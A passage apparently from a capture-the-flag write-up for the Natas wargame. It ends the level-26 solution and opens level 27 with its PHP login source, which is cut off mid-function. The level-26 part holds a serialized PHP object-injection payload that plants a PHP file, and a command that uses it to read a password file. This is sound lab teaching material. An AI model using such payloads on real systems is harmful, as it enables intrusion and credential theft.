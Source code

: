 There&#8217;s a couple of ways to get the NUL values encoded correctly. You could use a hex editor like &#8220;010 Editor&#8221; if you&#8217;re on Windows.  
Or if you&#8217;re on linux, use `echo -n -e ‘a:1:{i:0;O:6:”Logger”:2:s:15:”\0Logger\0logFile”;s:26:”img/natas26_randomname.php”;s:15:”\0Logger\0exitMsg”;s:21:”<pre> ”;}}’ | base64`

That&#8217;s it! Try it with the command `/?1=cat+/etc/natas_webpass/natas27`.

&nbsp;

### LEVEL 27

<img class="alignnone size-full wp-image-301" src="/assets/img/2019/09/2019-09-20_08h50_15.png" /> 

The sourcecode:

{% highlight php %}<?

// morla / 10111
// database gets cleared every 5 min 


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/


function checkCredentials($link,$usr,$pass){
 
  $user=mysql_real_escape_string($usr);
  $password=mysql_real_escape_string($pass);
  
  $query = "SELECT username from users where username='$user' and password='$password' ";
  $res = mysql_query($query, $link);
  if(mysql_num_rows($res) > 0){
    return True;
  }
  return False;
}


function validUser($link,$usr){
  
  $user=mysql_real_escape_string($usr);
  
  $query = "SELECT * from users where username='$user'";
  $res = mysql_query($query, $link);
  if($res) {
    if(mysql_num_rows($res) > 0) {
      return True;
    }
  }
  return False;
}


function dumpData($link,$usr){
  